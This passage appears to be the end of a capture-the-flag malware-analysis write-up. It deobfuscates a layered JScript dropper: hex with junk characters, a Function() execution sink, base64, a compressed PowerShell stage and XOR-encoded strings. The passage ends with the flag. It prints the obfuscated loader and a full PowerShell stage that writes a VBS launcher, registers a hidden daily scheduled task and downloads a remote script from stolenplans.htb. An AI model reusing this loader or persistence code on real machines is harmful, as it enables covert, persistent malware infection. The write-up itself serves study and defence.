473179516b4a58517a424755693975557a5676554374764d45564f6130397462334a35627a493453556b3457485a704f5752594d5770584e464a4e4e56526a53576844656d35784e3356545a7a6c6c5545677a556a4e6a534731515232644a5457526a626c67336557707556544d3056314a59614646325a4842494b7974314d6d49725232563164454d7963445135537a497a52576c5851326b7a4d565578634845774d32647762437451564556744e55784863334e4b6247747554566c6d59584635556a513059584a6f537a52566457784354546c6a56574a4c5a57356c596b70725345513553554976517a6c3065476f223b0a766172206572667265737466756c79726a696b203d2066616c73653b0a76617220746e68617264776f6f646d6f73637a203d2066616c73653b0a76617220656a6e687069636f7365636f6e64667175203d206e756c6c3b0a76617220706d6f736d707265796e64203d20747275653b0a7661722075746d6961736d6165203d206e756c6c3b0a7661722077416e746f6e696f6161766a6c203d20747275653b0a76617220706578784d61726b6f7669616e71203d2034353839303b0a76617220686f6577656272756974697364203d2036383439373b0a76617220766c646566796f6c6e203d20747275653b0a766172207774757663726272203d2073766d6e6179786f202b2022765758523463314a714f557777626a465a4e3078705669397757456c68623074565a46564853566f325632644561564e765a486f3259576c565a6d303062464245513170574d3270325a7a56684f464668656b4e7652455a30547a4a425745453164565646596e4675656c6875536d773252304a5253465a6d4d566459654646344e54513161466c694d5756756547466e4e6e565a645531695258704257585a4e55326836546b315a536c4a34535539334e455645576d704f4d444244627a6c78536939474f45457852334a7a566a64795458553355585654616b4a32626d39304e5863786256704a53486c475a446c786148466957457458556c5a4b546d5255656a5a4f4e5539694e58526d54586848626b684962316c445a316c6d564646526354567a4e546c4c4b3239614e587034526c46744e5338325a6d78486332646b4e6e42526331464c4d5845306344425063577470596d78544f544e6b576939354e456c77515745304d6b704464564a6f53324a48556a673265556732526a4676636d343159336c305a6d4a5164485a356547566b6554527a616c6c6d4d307876634664305a5768776444564d565774784d47704e5930783663486c4d6244683152576846593146585953394352466445565864724d6a4a426231645a6258566c6256524a656b394e5a324e5a595768305545564661557474536d314255334d315654463251314245633049355a58643063485a7563464e4d5332685863306c744e4642504e31644a613346554d6a4972626b7076616a5a574d7a4533656939706430354a656e55324f554e754e327856597a5130617a597a5357317463464e316348704d616c4e554f4652475a555972656d784f56484242614568424d3039694f44593052446c7553326c6a4c33426f55464577533056704d6b74724e474a545457394851334230554459335a7a5a4256456475576a5178544735515257647664316c223b0a766172206868714d696e6e65736f746166203d206e756c6c3b0a7661722077657274616b656e626c203d2066616c73653b0a7661722074696f6771666267203d207774757663726272202b20226156455a6b61223b0a766172206a6e6e7774626173746568203d206e756c6c3b0a766172206b48616e7362646d203d2022756e646566696e6564223b0a766172206a6a6c6676616363726574696f6e6f203d20747275653b0a76617220776e77666f726569676e70737864203d2066616c73653b0a76617220766674626b6b6d77203d2074696f6771666267202b20226b7450576d78466147466c4f484a4d5430394c61586c6862486469596b5a4861553076543246446255396b563146515a566c36596d4e4864485a5a6145785556306c4b5a454a715744524b626d74496145707a537a687652303551546d784a5a6a524e5248647a6455786a5347527254334a79634556345a32737a51315661625546474e566c486147497954586c4f656e6b32635870544d55746d4e47397964453569656e4e4c4c31704d525774495632703464554d77575374796155307953444e455557564f5a466c734e315235536d78546257513456453145634578496132357a4d4756614e555a7755455a6e636a4e4d54476c4b62446b30616a4e5961473944557a4a6a593370614f47785252314934646b564e6332785562336772616e4e4455466c434b3268574d56524e635851786369746b65584650555552614e7a51795346566c4d453543615574334e3234314d6d5a744e6e464a6548687859574e7961476c5759576469546c4e78555870335253394f4e6d746f645551334f56673552485a524d474e334e44526e626b3936556b4e3554555534534556794e336477546a4e36556c6451516e4a724e5770565956424c626b52304f464d78546b46314c305178655446745354683351303542636a6877556c5a68566b6c4261464e6b616e6459516c5a774e566875616d6f34533239745a6d7430656b56334f544e61545668484b3234775347633563327833636d783564797331645842685247786d4d446c4c5a6d45305a6a4676636c6c47536e5976636d35594d465649557a5a5852474a6d4d316b32555734314e31644e62697434565770505a48645a57486f334d3056574d30564d62326c614d556849593355774e31704e5444464b55314a364d4670556456567a4e46557a59556c71546c4e446555783154475269516a41324f574577556d35445a566c795130394654324e4759334274616b396f63555a4a53454e6e56556c6c626d6c4c6248673364326333543246584e6c564365576c7256466476526b394e6132354d5a7a5242654456355447564e546a526153567031546d4a5164454a4a557a46586146684c63465572546";
var uwetjyhi = eplicmqe + "b56546556706d5747644a596c497664586f7251335a61576b64556432466d6347394e6546413459305254636b6b725158465955585a4c597a563056477842656b394764304a77656e64484d6b5270566b5a6d656b5a5a6548417a616d6378556b63795645705a5231593163474934555551304f4731574e5778334d3168794e6a6b3564444e594e7a6c35656b5a4e61486c5156334a3264697452656d6c544b334654526d4a794d306c4459324e754d325a4759574e35626b4645597a52335546673059325648627a684e57473172576c524e4e6d5677546d39564c7939496156704d4c304e695548525051304a506244467164573135553234355a564a4b62465a564c7a5134646e4572646a46325a6e466c626d5635513341355231466f5a304e4c646b497a54544633646e51344b326f72535767356132497252305934646c4278513273765532464f567a6c31636d3159527a4a72636b7451566e685862304a7863454a6b634659795a57784a52466858516d45344e32566e627a45334d444a735958524c526e52304d6c5934635546784e6c7059536b52744e6b4e5555566f314d6c5933554456475648566f6157394e57576c496254645a5755314f6355786c4d7a5a7559797453643064726233704b54546776556a525a6455526e633064326154517a63444a705433223b0a76617220646768657465726f7374727563747572656a7965203d2039353639313b0a76617220786263686573736e203d2022756e646566696e6564223b0a7661722075777265736f6e61746569797a66203d2066616c73653b0a7661722075706a73706f6f667a203d2022756e646566696e6564223b0a7661722064626573706172686169756c203d2066616c73653b0a7661722061616f7669647563746c7a736378203d2032393830393b0a7661722062786d616e68746e203d20766674626b6b6d77202b2022687a55484a50626a4a6e6555786d627a524d4e58593154336c785a31427355327456575567795a456878624752745233565551336335646d524c556b4d324b7a497656576449596a6877544442705a6e524455334e574b7a6c346545597665554e435632354252555135616c684c4d455234557a684f5344425a633078735744524c63316842636b744561484e775630746e57457857556e417754475270627a4e72563031515744646c654659345a325931516d643561485a34645856745554684b544568614f5531794e6b46785a32396a646a45314d6b356b62304668625339505155787a536c70614d4464564e6d347963575659616a645657485654644642304c7a4233565856544d4774474e6c4e6d625739764d58497951325a3656554e5365544252646b7869626b78555a6a6c5451565a535a544e69626c673261556b7a543168784f455a4e4e6d4661526e464b616a424a615752505244567161554636526a4577566b6c355748684a5356677856464e5459325a6e5a30464b626c52575558524f53315272593052345a566b31593249775a573173655568314b31526e5748684762564a545930464562554a474d4563335446466c56564a724f4442615a6c5677616c46776131427964554a71635670454e6c4a6e4c79396e617a306e4a796b7357314e35553352465453354a5479354454303151636d565455306c505469356a54303151556d567a63306c50546d31765a4556644f6a704552554e50545642535a564e544b587767526b39795257466a6148744f5256637462304a4b5a554e55494342705479357a56464a6c51553153525746455258496f494352664c46745457584e555a553075564556346443356c546d4e765a476c4f5a3130364f6b467a51326c7049436b67665341704c6e4a6c59555255543056755a4367674b53634b49584a316269464259335270646d565954324a715a574e304957746b63574a32656d5a7762584e6a5a57707a64476c7762573936616d4e7164327831636e566f5958566d5a32683164484a7659586c7765486874625746775a58463059335a34626d3931626d747763577870656d523161325a3461575a726558466e65576c766233426b634768725a5768795a47786d61573936646d3934615731365a3370685a327470654739775a57357762335a7559574e7762475273656e643661326c70646d5676223b0a766172206f785472616e7369746565203d2066616c73653b0a766172206b6e7565726573706f6e7369626c656571203d2038393433363b0a7661722073596f726b746f776e6c627965203d20747275653b0a76617220727361737361667261736b203d206e756c6c3b0a76617220697a75786342616a617761203d2033333930393b0a76617220707379527566757369203d2032343438353b0a76617220796e766a6f6e7677203d207868687774617263616465707a2862786d616e68746e292e73706c697428222122293b0a766172206e686469736369706c696e65626f6b203d2022756e646566696e6564223b0a7661722068736c6f746866756c6e7664203d20747275653b0a766172206d7373746f6c656e76203d2066616c73653b0a766172206f64737570706c656d656e7461727969646e203d2066616c73653b0a766172206c6b6e696d62757361203d206e756c6c3b0a75676572726f72666b6c6e3d6e657720746869735b796e766a6f6e76775b39343035322d39343034385d5d28796e766a6f6e76775b37353331392d37353331385d293b0a76617220676476646173746172646263203d20747275653b0a766172207965646861636b6d617461636b77203d2066616c73653b0a7661722066687a6f696c6974686f737068657269636b6e6c6173203d2032353435363b0a7661722074697965776d616d6d61727961203d2022756e646566696e6564223b0a76617220756f676b5665726e6f6e7a65203d206e756c6c3b0a7661722074707761636b6563203d206e756c6c3b0a7661722061626a6163726f70686f62696362786269203d206e756c6c3b0a75676572726f72666b6c6e2e506f70557028225468697320646f63756d656e7420697320636f72727570742e222c31302c224552524f52222c3438293b0a76617220706b726176656e696e203d2066616c73653b0a7661722079616571636f6d706f737475203d206e756c6c3b0a76617220687572657a7365717565737465726c726571203d20747275653b0a7661722074647670616169726272757368777173203d2031343837373b0a76617220657665646c6f6e677374616e64696e67736474203d2022756e646566696e6564223b0a7768696c6520287472756529207b0a575363726970742e536c656570283130293b0a766172206f66627564647968687765203d2031313534373b0a7661722071684b61746965737a667862203d20747275653b0a76617220666f757469676874776164696878203d206e756c6c3b0a766172207168636868767764203d20206e6577204461746528293b0a76617220626d6d6f70756d706b696e7365656476203d2066616c73653b0a76617220786c6268616578636f6d6d756e696361746571203d20747275653b0a7661722079736e7477696e657279757667203d2036363339393b0a76617220736c4d61726b6f76766674203d2066616c73653b0a76617220727765656b6461796d656e6e203d2022756e646566696e6564223b0a766172206275686971737072696768746c796b72203d20747275653b0a7661722062676a6770696c62203d2022756e646566696e6564223b0a7661722066714d69647765737465726e627666656e203d2033363233343b0a69662028287168636868767764202d20796a6465646e797729203e202831342a36302a283639332b323335292920297b0a75676572726f72666b6c6e5b796e766a6f6e76775b3630362d3630335d5d28796e766a6f6e76775b35363936392d35363936375d2c206b6543617274686167656466293b0a766172206a756f71637065616b7973707a7865203d206e756c6c3b0a7661722078687371646f6767696e676a74716875203d2037333333383b0a76617220716469706c6f69647970646d65203d2022756e646566696e6564223b0a627265616b3b0a766172207868736770726f6361696e656369796e64203d2034383939323b0a76617220666f7a6f73656d6978203d2022756e646566696e6564223b0a766172206369666c6f6562756b7269203d2022756e646566696e6564223b0a76617220656b6275786f6d70707365203d2022756e646566696e6564223b0a76617220757a4d6347696c6c637765203d206e756c6c3b0a76617220666b776967676c656f636768203d2022756e646566696e6564223b0a7661722068706e616e646573696e656c61203d2066616c73653b0a7661722074736b73636f75706c65726f203d2066616c73653b0a766172206c726964646c65726e6c7878203d206e756c6c3b0a7d0a7d0a3b0a766172206a64726d6f636f6e7461637477203d2038383632383b0a7661722074666a626f636c757463687767647370203d20747275653b0a766172206b7963696e66657272696e67707a203d2066616c73653b0a76617220656c75766573706572656f203d2066616c73653b0a766172207a6c7072656d6f72736566756c76203d2022756e646566696e6564223b0a766172207968696b774d616767696579203d2033373439333b0a";


var hfhwsgmb = 532;

while (hfhwsgmb > 0) {
    hfhwsgmb = Math.floor(Math.random() * 10000) + 1;
    switch (hfhwsgmb) {
        case 532:
            hfhwsgmb = uwetjyhi.replace(/[sV]/g, '');
            var ooqajrjz = "";
            for (var ioxpkxez = 0; ioxpkxez < hfhwsgmb.length; ioxpkxez += 2) {
                ttjqepbj = hfhwsgmb.substr(ioxpkxez, 2);
                ooqajrjz += tjkdjlll(kmbvxuoa(ttjqepbj, 2519 - 2503));
            }
            cyfgvptr(ooqajrjz);
            hfhwsgmb = -532;
            break;
    }
}

function kmbvxuoa(eutxbhhz, eiexokbr) {
    ifhzpbrq = parseInt(eutxbhhz, eiexokbr);
    return ifhzpbrq;
}


function cyfgvptr(phfljyaj) {
(Function(phfljyaj)());
}


function tjkdjlll(dbcsdyyw) {
    var zjxkhodr = String.fromCharCode(dbcsdyyw);
    return zjxkhodr;
}
```

The flow is:
```js
var yqybdscl = "...";
var zuloqgnm = yqybdscl + "...";
var eplicmqe = zuloqgnm + "...";
var uwetjyhi = eplicmqe + "...";
```
1. These variables reconstruct one large obfuscated payload string. The malware inserts junk characters,specifically s and V, into the hex stream to make static analysis harder.
2. Then using a loop to keep generating random numbers until it hits 532 for the code to run.
3. `hfhwsgmb = uwetjyhi.replace(/[sV]/g, '');` removes the junk characters and reveals the real hex string.
4. The script processes the cleaned hex string two characters at a time, converts each hex byte to an integer, then converts that integer to an ASCII character.
5. `function kmbvxuoa(eutxbhhz, eiexokbr) {return parseInt(eutxbhhz, eiexokbr);}` is a wrapper around parseInt(..., 16), while `function tjkdjlll(dbcsdyyw) {return String.fromCharCode(dbcsdyyw);}` is wrapper around String.fromCharCode(). 
6. However there's a dangerous execution sink, here it is
```js
function cyfgvptr(phfljyaj) {
(Function(phfljyaj)());
}
```

So I just need remove this sink to run the script safely, this reveals another javascript:



Inside there is a look like base64 strings appended continously and assigned to variables:



The last variable used was `bxmanhtn` decoded by the function `xhhwtarcadepz`, then assigned to `ynvjonvw`:

```js
var ynvjonvw = xhhwtarcadepz(bxmanhtn).split("!");
```

I avoided locally executing the decoded JScript and only evaluated the variable `ynvjonvw` by printing it out using console.log:



Inside is another powershell script running with `-execu  bypass` argument, it converts a base64 string to the real script by using decompress mode, using CyberChef, I could mimic this process to reveal anpother obfuscated powershell script:



```powershell
 SET-ItEM ("VAr"+"Ia"+"B"+"le:4z0")  ([TypE]("{2}{3}{1}{0}" -f'odinG','.enC','sYSTEm.T','ext')  )  ;   sv  IgF  (  [TypE]("{1}{0}{2}{3}" -f'OnVe','SYsTEM.c','r','T')  )  ;sV ('5EV'+'lS') ([type]("{1}{2}{0}" -F 'E','Io','.fIL'))  ;  &("{4}{1}{3}{0}{2}"-f 'ri','et-','ctMode','St','S') -Version 2
function UYc`xq (${TN`me},${Chk`go`Iul}) {
    for (${eum`lMx`NyUg} = 0; ${eu`mL`MxNYug} -lt ${T`NME}."c`OUnt"; ${Eu`MLMx`NyUG}++) {
       ${T`NME}[${eUM`lM`XnyuG}] = (${t`NmE}[${eUm`Lmx`N`yuG}] -bxor ${c`HKGo`iUl})
    }
    return  ( gEt-vaRIAble ("4"+"Z0")  -VaL)::"As`Cii"."gETs`T`RIng"(${tN`Me})
}
function Rc`DAt`CaJT {return (1..16 | .('%'){ '{0:X}' -f (&("{0}{2}{1}" -f 'Ge','andom','t-R') -Max 16) }) -join ''}
${E`UM`lm`XNy`UGzzOO} = (&("{0}{1}" -f 'UyC','xq') ([System.Byte[]] @(0x0a,0x16,0x16,0x12,0x58,0x4d,0x4d,0x11,0x16,0x0d,0x0e,0x07,0x0c,0x12,0x0e,0x03,0x0c,0x11,0x4c,0x0a,0x16,0x00,0x4d,0x10,0x4d)) 98)
${suQ`QsIgl} = (.("{1}{0}" -f 'Cxq','Uy') ([System.Byte[]] @(0x31,0x3c,0x36)) 80)
${X`s`xnap`VE} = (&("{1}{0}"-f'xq','UyC') ([System.Byte[]] @(0x42,0x13,0x7d,0x4c,0x4c,0x78,0x5d,0x48,0x5d,0x13,0x70,0x53,0x5f,0x5d,0x50,0x13,0x71,0x55,0x5f,0x4e,0x53,0x4f,0x53,0x5a,0x48,0x13,0x6b,0x55,0x52,0x58,0x53,0x4b,0x4f,0x13,0x6c,0x53,0x4b,0x59,0x4e,0x6f,0x54,0x59,0x50,0x50,0x13)) 60)
&('cd') ${XSx`NAp`Ve}
${cyR`YX`whqM} = (.("{1}{2}{0}" -f 't','R','cDATCAJ'))+(.("{0}{1}"-f 'UyC','xq') ([System.Byte[]] @(0x67,0x3f,0x2b,0x3a)) 73)
${N`yNG} = (.("{1}{0}" -f 'd','pw')).("{0}{1}{2}" -f 'ToStr','i','ng').Invoke() + '\' + ${cyRYXw`H`qM}
${WbwM`g`QB} = (.("{2}{1}{0}"-f 'Jt','TCA','RcDA')) + (.("{3}{1}{2}{0}" -f'Jt','AT','CA','RcD'))
${u`JRW} = $(.("{0}{1}" -f 'whoa','mi'))
${EUMLmX`NYuGS`WAb`lOEP} = (.("{1}{0}"-f'yCxq','U') ([System.Byte[]] @(0x5d,0x7d,0x45,0x3d,0x4d,0x42,0x60,0x50,0x5d,0x37,0x4e,0x74,0x67,0x4c,0x55,0x71,0x55,0x5c,0x4e,0x6a,0x60,0x53,0x35,0x68,0x66,0x6a,0x56,0x7e,0x4f,0x40,0x45,0x74,0x47,0x6a,0x4a,0x68,0x60,0x47,0x46,0x7e,0x4d,0x40,0x34,0x63,0x55,0x37,0x4e,0x68,0x5d,0x5c,0x56,0x68,0x50,0x36,0x4e,0x75,0x5e,0x53,0x4a,0x34,0x4f,0x47,0x4e,0x5c,0x51,0x36,0x4a,0x7d,0x65,0x5c,0x46,0x34,0x48,0x68,0x4a,0x6b,0x5e,0x53,0x7c,0x77,0x4d,0x6d,0x6f,0x4f,0x67,0x7d,0x31,0x57,0x60,0x53,0x30,0x63,0x4d,0x6a,0x46,0x72,0x60,0x36,0x52,0x7d,0x67,0x36,0x6c,0x68,0x66,0x43,0x73,0x71,0x5e,0x5c,0x6c,0x68,0x4d,0x47,0x35,0x68,0x61,0x43,0x52,0x6e,0x4d,0x43,0x4e,0x31,0x67,0x43,0x42,0x7e,0x67,0x7d,0x45,0x6d,0x4d,0x47,0x5d,0x63,0x5d,0x7d,0x73,0x73,0x47,0x63,0x39,0x39)) 4);
${r`ERbWtRv} =  $igf::("{1}{3}{0}{2}{4}"-f 'ase64','From','Strin','B','g').Invoke(${eu`ml`MXny`UgsW`ABl`OEp})
  (get-VariAbLe ('5EV'+'LS')  -Va)::("{1}{2}{0}" -f'ytes','wri','teallb').Invoke(${N`ynG},${ReR`Bw`TRV});
${as`kz`pH`UpAj} = (.("{0}{1}"-f'p','wd')).("{0}{1}{2}"-f'ToStr','in','g').Invoke() + '\'
${vQp`SBX`gyj} = (&("{3}{0}{2}{1}" -f 'cD','Jt','ATCA','R'))
${a`etR`sd`f} = (&("{2}{1}{0}" -f 'q', 'cx', 'UY') ([System.Byte[]] @(0x97,0x8b,0x9d,0xa4,0xb3,0xef,0xab,0xac,0x80,0xb0,0xb9,0x80,0xb3,0xeb,0x86,0xec,0xad,0xac,0x80,0xb6,0x91,0x80,0xab,0xb7,0xeb,0xab,0x80,0xee,0xa2)) 223)
${t`kqr`mLSfPD} = '"' + (&("{1}{0}"-f 'xq','UyC') ([System.Byte[]] @(0x22,0x2e,0x33,0x6b,0x63,0x22,0x3c,0x39,0x6b,0x66,0x3e,0x38,0x2e,0x29,0x6b)) 75) + "$eUmLmxNYuGZZoO$suqqSiGL/$vQpsbXGyj)" + '"' 
${eRQ`cf} = &("{1}{4}{3}{6}{2}{5}{0}"-f'TaskAction','New-S','le','e','ch','d','du') -Execute "$aSKZpHuPaj$cyrYXWhqM" -Argument ${Tk`Q`Rmls`FpD}
${tpNDJP`w`Aa} = .("{1}{2}{0}{4}{6}{3}{5}"-f'h','New-S','c','edTaskPrin','edu','cipal','l') "$UJrw"
${aIuf`d`yWasr} = .("{4}{1}{5}{2}{0}{3}" -f'igge','w-Sche','askTr','r','Ne','duledT') -Once -At (&("{0}{1}"-f 'Get-D','ate')).AddDays(1) -RepetitionInterval (&("{1}{2}{0}" -f'pan','New-Time','S') -Days 1) -RepetitionDuration (.("{1}{2}{3}{0}"-f'n','New-Ti','meS','pa') -Days(365))
${d`wtTAWqx} = .("{5}{4}{0}{6}{1}{3}{2}" -f 'ledT','skS','ttingsSet','e','w-Schedu','Ne','a') -Hidden -MultipleInstances ("{0}{2}{1}" -f'Par','el','all') -AllowStartIfOnBatteries
.("{2}{1}{3}{4}{6}{0}{5}"-f 'T','egis','R','ter-','Sche','ask','duled') -TaskName ${WbWm`g`Qb} -Action ${Er`qcf} -Trigger ${AI`Uf`dY`WASr} -Settings ${dW`TTAWqx}
```

The main decoding function is `uycxq`, which is a simple xor function, it takes 2 variables as input, then xor every bytes of one var with the other var. Then convert the string to character using `Ascii.GetString`

There are several variables used result of the xor function, I used CyberChef to reveal the hidden payloads.

After decoding the XOR byte arrays, the remaining PowerShell logic becomes clear. It writes a VBS launcher to the user's PowerShell directory, then registers a hidden scheduled task. The scheduled task executes the VBS file with an argument that runs PowerShell and downloads a remote script from `http://stolenplans.htb/r/alf/<random>`. One of the XOR-decoded strings contains the flag:



### 3. Solution ###
1. **Result:** The flag is `HTB{l0ts_of_l4Y3rs_iN_th4t_1}`